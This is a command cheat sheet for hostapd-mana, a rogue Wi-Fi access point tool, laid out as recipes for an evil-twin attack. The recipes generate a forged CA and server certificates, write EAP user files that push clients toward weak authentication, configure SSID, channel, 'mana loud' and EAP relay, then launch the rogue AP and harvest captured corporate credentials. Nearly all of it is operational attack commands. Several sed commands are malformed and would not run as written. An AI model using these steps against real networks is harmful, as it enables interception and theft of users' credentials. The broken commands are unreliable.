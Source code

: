 # hostapd-mana
% wifi, hostapd-mana, Access Point, rogue AP, evil-twin
#plateform/linux #target/remote #cat/RECON #cat/ATTACK

## _desc
```
rogue wifi access point tool. It can be used for a myriad of purposes from tracking and deanonymising devices (aka Snoopy), gathering corporate credentials from devices attempting EAP (aka WPE) or attracting as many devices as possible to connect to perform MitM attacks.
```

## _repo
```
https://github.com/sensepost/hostapd-mana
```

## _doc
```
https://github.com/sensepost/hostapd-mana/wiki
```

## _install
```
```

## Generate Diffie-Hellman parameters
```bash
openssl dhparam -out <ossl_dh_file|dh.pem> <ossl_dh_bits|2048>
```

## Generate CA (RSA)
```bash
openssl genrsa -out <ossl_ca_key_file|ca-key.pem> <ossl_ca_bits|2048> && openssl req -new -x509 -nodes -days <ossl_ca_cert_days|100> -key <ossl_ca_key_file|ca-key.pem> -out <ossl_ca_cert_file|ca.pem> -subj '/C=<ossl_srv_subj_C|US>/ST=<ossl_srv_subj_ST|California>/L=<ossl_srv_subj_L|San-Francisco>/O=<ossl_srv_subj_O|Jubeaz>/OU=<ossl_srv_subj_OU|IT-Department>/CN=<ossl_srv_subj_CN|JubeazCA>'
```


## Generate server (RSA)
```bash
echo -e '[ req ]\ndistinguished_name = dn\nattributes = att\nreq_extensions = ext\nprompt = no\n[ext]\nsubjectAltName = DNS:<ossl_srv_fqdn|jubeaz.com>\n[dn]\ncountryName = <ossl_srv_subj_C|US>\nstateOrProvinceName = <ossl_srv_subj_ST|California>\nlocalityName = <ossl_srv_subj_L|San-Francisco>\n0.organizationName = <ossl_srv_subj_O|Jubeaz>\norganizationalUnitName = <ossl_srv_subj_OU|IT-Department>\ncommonName = <ossl_srv_subj_CN|Jubeaz>\n[att]\nchallengePassword = <ossl_srv_challenge|challenge1234>' > <ossl_srv_cnf_file|server.cnf> && openssl req -newkey rsa:<ossl_srv_bits|2048> -nodes -keyout <ossl_srv_key_file|server-key.pem> -out <ossl_srv_csr_file|server.csr> -config <ossl_srv_cnf_file|server.cnf> && openssl x509 -req -days <ossl_srv_cert_days|100> -set_serial 01 -in <ossl_srv_csr_file|server.csr>  -out <ossl_srv_crt_file|server.pem>  -CA <ossl_ca_cert_file|ca.pem>  -CAkey <ossl_ca_key_file|ca-key.pem>
```


## config - show 
```bash
cat <hostapd_mana_config|hostapd-mana.conf> | grep -v '^#' | grep -v '^\s*$'
```

## config - create (EAP)
```bash
cp ~/.config/hostapd-mana/hostapd.conf.eap_pentest <hostapd_mana_config|hostapd-mana.conf>
```

## config - create eap_user files
```bash
echo -e '* TTLS,PEAP,TLS,MD5,GTC\n"t" TTLS-PAP,GTC,TTLS-CHAP,TTLS-MSCHAP,TTLS-MSCHAPV2,MD5 "<ossl_srv_challenge|challenge1234>" [2]' > hostapd.eap_user && echo -e '* TTLS,PEAP,TLS,MD5,GTC\n"t" GTC,MSCHAPV2,TTLS-MSCHAPV2,TTLS,TTLS-CHAP,TTLS-PAP,TTLS-MSCHAP,MD5 "<ossl_srv_challenge|challenge1234>" [2]' > hostapd.eap_user.balanced && echo -e '* TTLS,PEAP,TLS,MD5,GTC\n"t" GTC "<ossl_srv_challenge|challenge1234>" [2]' > hostapd.eap_user.gtc && echo -e '* TTLS,PEAP,TLS,MD5,GTC\n"t" GTC,TTLS-PAP,MD5,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,TTLS-MSCHAPV2,TTLS "<ossl_srv_challenge|challenge1234>" [2]' > hostapd.eap_user.weakest && echo -e '* TTLS,PEAP,TLS,MD5,GTC\n"t" MSCHAPV2,TTLS-MSCHAPV2,TTLS,TTLS-CHAP,GTC,TTLS-PAP,TTLS-MSCHAP,MD5 "<ossl_srv_challenge|challenge1234>" [2]' > hostapd.eap_user.strongest && echo -e '* TTLS,PEAP,TLS,MD5,GTC\n"t" TTLS-MSCHAPV2,MSCHAPV2,MD5,GTC,TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP   "challenge1234"[2]' > hostapd.eap_user.relay
```

## config - set channel (2.4Ghz)
```bash
sed -i 's/^hw_mode=.*/hw_mode=g/' <hostapd_mana_config|hostapd-mana.conf> && sed -i 's/^channel=.*/channel=<wlan_channel|1>/' <hostapd_mana_config|hostapd-mana.conf>
```

## config - set channel (5Ghz)
```bash
sed -i 's/^hw_mode=.*/hw_mode=a/' <hostapd_mana_config|hostapd-mana.conf> && sed -i 's/^channel=.*/channel=<wlan_channel>/' <hostapd_mana_config|hostapd-mana.conf>
```

## config - set ssid
```bash
sed -i 's/^ssid=.*/ssid=<ssid>/' <hostapd_mana_config|hostapd-mana.conf>
```

## config - mana loud (enable)
```bash
sed -i 's/^mana_loud=.*/mana_loud=1/' <hostapd_mana_config|hostapd-mana.conf>  
```

## config - mana loud (disable)
```bash
sed -i 's/^mana_loud=.*/mana_loud=0/' <hostapd_mana_config|hostapd-mana.conf>  
```

## config - EAP relay (enable)
```bash
sed -i 's/^enable_sycophant=.*/enable_sycophant=1/' <hostapd_mana_config|hostapd-mana.conf>  && sed -i 's/^eap_user_file=.*/eap_user_file=hostapd.eap_user.relay' <hostapd_mana_config|hostapd-mana.conf> 
```

## config - EAP relay (disable)
```bash
sed -i 's/^enable_sycophant=.*/enable_sycophant=0/' <hostapd_mana_config|hostapd-mana.conf>  && sed -i 's/^eap_user_file=.*/eap_user_file=hostapd.eap_user' <hostapd_mana_config|hostapd-mana.conf> 
```

## config - set eap_user (default)
```bash
 sed -i 's/^eap_user_file=.*/eap_user_file=hostapd.eap_user' <hostapd_mana_config|hostapd-mana.conf> 
```

## config - set eap_user (Balanced)
```bash
 sed -i 's/^eap_user_file=.*/eap_user_file=hostapd.eap_user.balanced' <hostapd_mana_config|hostapd-mana.conf> 
```

## config - set eap_user (GTC)
```bash
 sed -i 's/^eap_user_file=.*eap_user_file=hostapd.eap_user.gtc' <hostapd_mana_config|hostapd-mana.conf> 
```

## config - set eap_user (weakest to strongest)
```bash
 sed -i 's/^eap_user_file=.*eap_user_file=hostapd.eap_user.weakest' <hostapd_mana_config|hostapd-mana.conf> 
```

## config - set eap_user (strongest to weakest)
```bash
 sed -i 's/^eap_user_file=.*/eap_user_file=hostapd.eap_user.strongest' <hostapd_mana_config|hostapd-mana.conf> 
```

## launch
```bash
sudo hostapd-mana <hostapd_mana_config|hostapd-mana.conf>
```

## harvest
```bash
cat credentials.creds 
```